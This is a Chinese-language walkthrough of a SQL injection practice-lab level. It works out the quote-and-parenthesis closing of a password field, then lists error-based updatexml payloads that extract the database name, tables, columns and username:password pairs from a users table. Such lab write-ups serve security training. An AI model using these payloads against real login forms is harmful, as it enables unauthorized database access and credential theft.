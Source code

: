 # 确认闭合状态
输入：passwd=1&submit=Submit&uname=1  
无回显

输入：passwd=1'&submit=Submit&uname=1  
显示报错信息：near ''1'') LIMIT 0,1' at line 1

说明本关是一个单引号加一个括号的闭合方式

输入：passwd=1') or 1=1 --+submit=Submit&uname=1  
成功，但没有任何回显，那么可以考虑报错注入


payload参考第5关
# 查询数据库名
passwd=1') and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+&submit=Submit&uname=1

# 查询表名
passwd=1') and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)--+&submit=Submit&uname=1


# 查询列名
passwd=1') and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e),1)--+&submit=Submit&uname=1


# 查询值
passwd=1') and updatexml(1,concat(0x7e,substring((select group_concat(username,':',password) from users),1,10),0x7e),1)--+&submit=Submit&uname=1

passwd=1') and updatexml(1,concat(0x7e,substring((select group_concat(username,':',password) from users),11,10),0x7e),1)--+&submit=Submit&uname=1

passwd=1') and updatexml(1,concat(0x7e,substring((select group_concat(username,':',password) from users),21,10),0x7e),1)--+&submit=Submit&uname=1

...